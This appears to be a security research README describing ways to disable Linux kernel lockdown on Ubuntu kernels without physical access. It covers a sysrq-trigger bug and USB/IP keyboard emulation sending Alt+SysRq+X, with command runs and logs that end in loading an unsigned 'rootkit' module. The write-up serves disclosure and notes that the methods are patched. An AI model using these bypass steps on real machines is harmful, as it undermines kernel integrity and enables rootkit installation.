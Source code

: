 unlockdown
==========

This repo demonstrates some ways to disable or bypass kernel lockdown on Ubuntu kernels without physical access to the machine, essentially bypassing this security feature.

(Updated 18.02.2019.) At this point, all proposed bypass methods have been fixed.

## Story

Once upon a time, while working on some [USB fuzzing](https://github.com/google/syzkaller/blob/master/docs/linux/external_fuzzing_usb.md) related stuff, I was about to trace the kernel via `kprobe` on my new laptop, but instead...

```
perf-tools/bin# ./kprobe 'r:usb usb_control_msg rv=$retval'
Tracing kprobe usb. Ctrl-C to end.
./kprobe: line 228: echo: write error: Operation not permitted
ERROR: adding kprobe "r:usb usb_control_msg $retval".
Last 2 dmesg entries (might contain reason):
...
    [  235.815912] Lockdown: kprobe: Use of kprobes is restricted; see man kernel_lockdown.7
Exiting.
```

Lockdown, eh?

## What is lockdown?

Linux kernel lockdown is a security feature that aims at restricting root's ability to modify the kernel at runtime.
See more details in ["Kernel lockdown in 4.17?"](https://lwn.net/Articles/750730/) by Jonathan Corbet and ["Linux kernel lockdown and UEFI Secure Boot"](https://mjg59.dreamwidth.org/50577.html) by Matthew Garrett.
After 2 years of being in review, the lockdown patchset has been [merged](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=aefcf2f4b58155d27340ba5f9ddbe9513da8286d) into the upstream kernel in version 5.4.
Ubuntu has applied [a version of this patchset](https://git.launchpad.net/~ubuntu-kernel/ubuntu/+source/linux/+git/bionic/commit/?id=49b04f8acc7788778a360e7462353a86eaffca53) to their kernels in 2018.

Lockdown is enabled by default on my ThinkPad X1 Carbon laptop with Ubuntu Bionic:

```
# uname -a
Linux x1 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
# dmesg
...
[    0.000000] secureboot: Secure boot enabled
[    0.000000] Kernel is locked down from EFI secure boot; see man kernel_lockdown.7
...
```

## Disabling lockdown

The early versions of the lockdown patchset integrated kernel lockdown with UEFI secure boot and had a way to disable lockdown at runtime by sending an Alt+SysRq+X key sequence on an attached physical keyboard. Later those patches [were](https://lore.kernel.org/linux-security-module/20190306235913.6631-1-matthewgarrett@google.com/) [dropped](https://lore.kernel.org/linux-security-module/CACdnJuuxAM06TcnczOA6NwxhnmQUeqqm3Ma8btukZpuCS+dOqg@mail.gmail.com/) from the upstream patchset, but not from the distro backports.

While some ways to trigger Alt+SysRq+X from software (e.g. via `/dev/uinput`) were accounted for and disabled, a few still remain.
Here I'll show some methods to disable lockdown by injecting an Alt+SysRq+X key sequence without having physical access to the machine.

### Method 0: sysrq-trigger

The lockdown patchset included a patch that disallowed disabling lockdown by triggering a SysRq via `/proc/sysrq-trigger`.
Unfortunately, the early versions of this patch contained a [bug](https://lore.kernel.org/lkml/15833.1551974371@warthog.procyon.org.uk/) and the restriction hadn't actually been enforced. On Ubuntu the bug has been [introduced](https://git.launchpad.net/~ubuntu-kernel/ubuntu/+source/linux/+git/bionic/commit/?id=531c25a35b2a93e025e72e04f16b0f3620ace581) with the first backport of the lockdown patches (since release in April 2018 for Bionic), and [fixed](https://bugs.launchpad.net/ubuntu/+source/linux/+bug/1851380) in December 2019.

Disabling lockdown with this method is trivial as shown [here](00-sysrq-trigger/run.sh).

Vulnerable:

```
# uname -a
Linux x1 4.15.0-70-generic #79-Ubuntu SMP Tue Nov 12 10:36:11 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux


# cd 00-sysrq-trigger/
# ./run.sh 
...
Done! Check dmesg.

# dmesg
...
[  315.760278] sysrq: SysRq : 
[  315.760282] This sysrq operation is disabled from userspace.
[  315.760292] Disabling Secure Boot restrictions
[  315.760296] Lifting lockdown
```

Fixed:

```
# uname -a
Linux x1 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

# cd 00-sysrq-trigger/
# ./run.sh 
...
Done! Check dmesg.

# dmesg
...
[  208.412031] sysrq: SysRq : 
[  208.412032] This sysrq operation is disabled from userspace.
```

(The fix actually went into `4.15.0-72-generic`.)

### Method 1: USB/IP

Another way to turn off lockdown is to emulate a USB keyboard via [USB/IP](http://usbip.sourceforge.net/) (as long as it's enabled in the kernel) and send an Alt+SysRq+X key combination through it.
This has actually been previously pointed out by Jann Horn [here](https://lore.kernel.org/patchwork/patch/898080/#1090220).

Ubuntu's kernels have USB/IP enabled (`CONFIG_USBIP_VHCI_HCD=m` and `CONFIG_USBIP_CORE=m`) with signed `usbip_core` and `vhci_hcd` modules provided in the `linux-extra-modules-*` package.

(Jann has also mentioned the Dummy HCD/UDC module, which can indeed by used together with e.g. GadgetFS to do the same trick, but `CONFIG_USB_DUMMY_HCD` is not enabled in Ubuntu kernels.)

[Here](https://github.com/xairy/unlockdown/blob/master/01-usbip/keyboard.c) you can find the code that emulates a keyboard over USB/IP and sends an Alt+SysRq+X key combination. [This script](https://github.com/xairy/unlockdown/blob/master/01-usbip/run.sh) shows how to run it.
It's possible to simplify the implementation of this method by directly interacting with the VHCI driver to emulate a USB device, but I didn't bother with this.

(Updated 18.02.2019.)  This method and has been fixed in [Ubuntu](https://bugs.launchpad.net/ubuntu/+source/linux/+bug/1861238), [Fedora](https://bugzilla.redhat.com/show_bug.cgi?id=1800859) and [Debian](https://salsa.debian.org/kernel-team/linux/commit/2204f19825db3d7cc3cbce9e37b53720437a3e7e) kernels by dropping the "Add a SysRq option to lift kernel lockdown" patch.

```
# uname -a
Linux x1 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

# cd 01-usbip/
# ./run.sh 
...
+ modprobe vhci_hcd
+ modprobe usbip_core
+ echo 1
+ gcc keyboard.c -o keyboard
+ usbip attach -r 127.0.0.1 -b 1-1
+ ./keyboard
waiting for connection...
connection from 127.0.0.1
OP_REQ_IMPORT
+ sleep 3
USBIP_CMD_SUBMIT
control request
bRequestType: 0x80 (IN), bRequest: 0x6, wValue: 0x100, wIndex: 0x0, wLength: 64
USBIP_CMD_SUBMIT
control request
bRequestType: 0x80 (IN), bRequest: 0x6, wValue: 0x100, wIndex: 0x0, wLength: 18
...
+ echo 'Done! Check dmesg.'
Done! Check dmesg.

# dmesg
[  422.346185] vhci_hcd vhci_hcd.0: USB/IP Virtual Host Controller
[  422.346190] vhci_hcd vhci_hcd.0: new USB bus registered, assigned bus number 5
...
[  423.233918] input: x as /devices/platform/vhci_hcd.0/usb5/5-1/5-1:1.0/0003:046D:C312.0002/input/input19
[  423.293702] hid-generic 0003:046D:C312.0002: input,hidraw1: USB HID v1.10 Keyboard [x] on usb-vhci_hcd.0-1/input0
[  423.429609] sysrq: SysRq : Disabling Secure Boot restrictions
[  423.429612] Lifting lockdown
```

### Method 2: TBD

TBD.

## So what?

What happens now that lockdown has been disabled?

At the very least I can now use `kprobe` on my laptop.
(No need to waste time remembering that [tricky key combination sequence](https://superuser.com/questions/562348/altsysrq-on-a-laptop) every time.)

```
perf-tools/bin# ./kprobe 'r:usb usb_control_msg rv=$retval'
Tracing kprobe usb. Ctrl-C to end.
     kworker/3:2-984   [003] d...   334.012577: usb: (hub_ext_port_status+0x8b/0x130 <- usb_control_msg) rv=0x4
     kworker/3:2-984   [003] d...   334.012590: usb: (usb_clear_port_feature+0x35/0x40 <- usb_control_msg) rv=0x0
     kworker/3:2-984   [003] d...   334.012595: usb: (hub_ext_port_status+0x8b/0x130 <- usb_control_msg) rv=0x4
```

And of course it's now also possible to do other fun stuff like loading unsigned kernel modules.

```
# uname -a
Linux x1 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

# cd rootkit
# make
...

# insmod rootkit.ko
insmod: ERROR: could not insert module rootkit.ko: Required key not available

# cd ../01-usbip
# ./run.sh
...
Done! Check dmesg.
# dmesg | grep 'Lifting lockdown'
[  146.480046] Lifting lockdown

# cd ../rootkit
# insmod rootkit.ko
# dmesg | grep rootkit
[  175.953572] rootkit: loading out-of-tree module taints kernel.
[  175.953574] rootkit: module license 'unspecified' taints kernel.
[  175.953621] rootkit: module verification failed: signature and/or required key missing - tainting kernel
[  175.953975] rootkit successfully loaded
```
